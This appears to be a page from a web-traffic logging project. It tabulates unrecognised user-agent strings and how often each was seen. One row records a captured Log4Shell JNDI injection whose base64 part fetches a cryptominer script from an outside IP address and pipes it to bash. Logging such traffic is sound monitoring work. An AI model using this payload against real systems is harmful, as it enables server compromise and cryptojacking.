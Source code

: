 ## user_agent

The list of User Agent presented here are those that have not yet been yet integrated into the [user agent database database](https://blog.shoggoth.industries/database/request_database/).

|     |   number_of_occurence | user_agent                                                                                                                                                                                                                                                                                                                     |
|----:|----------------------:|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|   0 |                    13 | Mozilla/5.0 (X11; U; Linux x86_64; en-US) AppleWebKit/537.36 (KHTML, like Gecko)  Chrome/30.0.1599.114 Safari/537.36 Puffin/4.5.0IT                                                                                                                                                                                            |
|   1 |                     8 | Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36                                                                                                                                                                                                                          |
|   2 |                     7 | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.102 Safari/537.36 Vivaldi/2.6.1566.44                                                                                                                                                                                        |
|   3 |                     7 | SonyEricssonT610/R201 Profile/MIDP-1.0 Configuration/CLDC-1.0                                                                                                                                                                                                                                                                  |
|   4 |                     6 | t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//46.8.226.196:3306/TomcatBypass/Command/Base64/ZXhwb3J0IEhPTUU9L3RtcDsgY3VybCAtcyAtTCBodHRwOi8vNDYuOC4yMjYuMTk2L3NjcmlwdHMvNHRoZXBvb2xfbWluZXIuc2ggfCBiYXNoIC1zOyB3Z2V0IC1xTy0gaHR0cDovLzQ2LjguMjI2LjE5Ni9zY3JpcHRzLzR0aGVwb29sX21pbmVyLnNoIHwgYmFzaCAtcw==}') |
|   5 |                     5 | Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_2; en-us) AppleWebKit/531.21.8 (KHTML, like Gecko) Version/4.0.4 Safari/531.21.10                                                                                                                                                                                               |
|   6 |                     3 | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36                                                                                                                                                                                                                |
|   7 |                     3 | Xpanse, a Palo Alto Networks company, indexes customer network perimeters. If you have any questions or concerns, please reach out to: scaninfo@paloaltonetworks.com.                                                                                                                                                          |
|   8 |                     2 | Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0                                                                                                                                                                                                                                           |
|   9 |                     2 | Mozilla/5.0 (iPad; CPU OS 5_1_1 like Mac OS X) AppleWebKit/534.46 (KHTML, like Gecko) Version/5.1 Mobile/9B206 Safari/7534.48.3,gzip(gfe)                                                                                                                                                                                      |
|  10 |                     1 | Opera/9.80 (X11; Linux i686; Ubuntu/14.10) Presto/2.12.388 Version/12.16                                                                                                                                                                                                                                                       |
|  11 |                     1 | Mozilla/5.0 (Linux;u;Android 4.2.2;zh-cn;) AppleWebKit/534.46 (KHTML,like Gecko) Version/5.1 Mobile Safari/10600.6.3                                                                                                                                                                                                           |
|  12 |                     1 | Mozilla/5.0 (ZZ; Linux i686; rv:128.0) Gecko/20100101 Firefox/128.0                                                                                                                                                                                                                                                            |
|  13 |                     1 | Mozilla/5.0 (CentOS; Linux i686; rv:120.0) Gecko/20100101 Firefox/120.0                                                                                                                                                                                                                                                        |